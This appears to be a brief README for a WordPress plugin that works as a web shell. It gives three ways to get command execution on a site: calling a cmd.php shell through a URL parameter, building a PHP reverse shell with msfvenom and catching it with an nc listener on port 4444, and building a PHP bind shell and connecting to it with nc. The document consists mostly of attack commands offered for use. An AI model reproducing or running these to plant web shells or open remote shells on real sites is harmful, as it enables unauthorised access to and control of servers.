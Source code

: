 # wordpress-reverse-bind-shell

###1st option
http://server.fun/wordpress/wp-content/plugins/wordpress-reverse-bind-shell/cmd.php?cmd=whoami

###2nd option
msfvenom -p php/reverse_php -f raw  LHOST=10.11.0.36 LPORT=4444 -o reverse.php
nc -lvnp 4444

###3rd option
msfvenom -p php/bind_php -f raw LPORT=4444 -o bind.php
nc server.fun 4444

## ToDo
More details...
